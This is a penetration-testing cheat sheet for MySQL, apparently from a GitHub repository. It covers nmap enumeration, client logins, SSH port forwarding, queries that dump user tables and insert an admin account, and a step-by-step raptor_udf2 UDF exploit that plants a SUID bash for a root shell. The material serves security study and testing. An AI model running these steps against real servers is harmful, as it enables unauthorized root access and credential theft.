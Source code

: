 # MySQL

MySQL usually runs on port `3306`.

Nmap targeted scan:

```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse -p 3306 10.10.10.10
```

Check if MySQL port is open locally:

```bash
# Linux
netstat -tulpn
ss -lntu
lsof -i
```

## MySQL Client

Interact with local MySQL:

```bash
# Interactive login to database (asks for password)
mysql -u root -p

# Supply password via parameter (no space after -p is on purpose)
mysql -u root -pPassWord
mysql -u admin_user -p's0m3p4ss!§$'

# Execute query as one-liner (non-interactive)
mysql -u admin_user -p's0m3p4ss!§$' -e 'SHOW DATABASES;'
mysql -u admin_user -p's0m3p4ss!§$' -e 'USE mydatabase; SHOW TABLES;'
mysql -u admin_user -p's0m3p4ss!§$' -e 'USE mydatabase; SELECT * FROM users;'

# Use specific database
mysql -u admin_user -p's0m3p4ss!§$' -D mydatabase
mysql -u admin_user -p's0m3p4ss!§$' -D mydatabase -e 'SHOW TABLES;'
```


Interact with remote MySQL:

```bash
mysql --host 10.10.10.10 --port 3306 -u root -p
mysql -h 10.10.10.10 -P 3306 -u root -p
```

## Port Forward MySQL Port

Forward remote MySQL port to your local machine with SSH.

Let's assume you have SSH access to a remote host that runs MySQL, but that server is only accessible from localhost.

Example SSH credentials:

* user: myuser
* pass: iloveyou

```bash
# Local port forward example:
ssh -N -L 1337:127.0.0.1:3306 myuser@targethost
## Type SSH password: iloveyou
## Shell will "freeze"

# In another shell confirm local port 1337 is open
netstat -tulpn
##  127.0.0.1:1337  LISTEN

# Log into forwarded mysql server:
mysql -u root -p -h 127.0.0.1 -P 1337
```

For more info on port forwarding see [SSH Cheatsheet - Port Forwarding](./ssh.md#port-forwarding).

## Common Queries

Enumerate Database Engine and version:

```bash
# Common MySQL
SELECT VERSION();
SELECT version();
SELECT @@version;

# Oracle
SELECT banner from v$version;
```

Basic Navigation:

```bash
# show all accessible databases
SHOW DATABASES;

# switch to a particular database
USE website_db;

# list tables in current database
SHOW TABLES;
```

Dump table content:
```bash
SELECT * from users;
SELECT username, password from users;
```

Enumerate column names for a particular table:

```bash
# Common MySQL
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE WHERE table_name = 'Users'

# Oracle
SELECT * FROM all_tab_columns
SELECT COLUMN_NAME,DATA_TYPE,TABLE_NAME FROM all_tab_columns WHERE TABLE_NAME='users'
```

Alternative way to enumerate table names:

```bash
# Common MySQL
SELECT * FROM information_schema.tables
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE FROM information_schema.tables

# Oracle
SELECT * FROM all_tables
SELECT TABLE_NAME,TABLESPACE_NAME,OWNER FROM all_tables
```

Insert into table:

```bash
# Syntax
INSERT INTO table_name (column1, column2, column3, ...) VALUES (value1, value2, value3, ...); 

# Example
INSERT INTO users (username, password) VALUES ("new_admin", "5F4DCC3B5AA765D61D8327DEB882CF99"); 
```

## MySQL Common Exploit - User-Defined Function (UDF)

* MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
* Exploit: https://www.exploit-db.com/exploits/1518

This should also work with version 5+

Requirements:

* The mysqld process runs as root
* We can connect to MySQL as root user. Either because we do not have to supply a password. Or because we know the mysql root user password from enumeration.


Compile the exploit (preferably on target machine).

Regular x86:
```bash
gcc -g -c raptor_udf2.c
```

For x64:
```bash
gcc -g -c raptor_udf2.c -fPIC
```


Create a shared object from the exploit binary:
```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

On the target, create the plugin/function and use it to make suid copy of bash:

```bash
$ mysql -u root -p
Enter password:
[...]
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/exploit/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell');

```

Depending on the version of MySQL you will have to change plugin directory. Here in version 5 it is `/usr/lib/mysql/plugin/`.

In the original exploit description they just write to `/usr/lib/` (presumably for version 4). Do some googling.

To gain a root shell just execute the copied bash binary:

```bash
$ /tmp/rootshell -p
rootshell-4.1# whoami
root
```

-p flag to keep the SUID, bash would otherwise automatically drop it.


### MariaDB

This alsow works for affected MariaDB versions, but the plugin directory is different:

```bash
/usr/lib/x86_64-linux-gnu/mariadb18/plugin/raptor_udf2.so
/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so
```

Might require some research on your end.
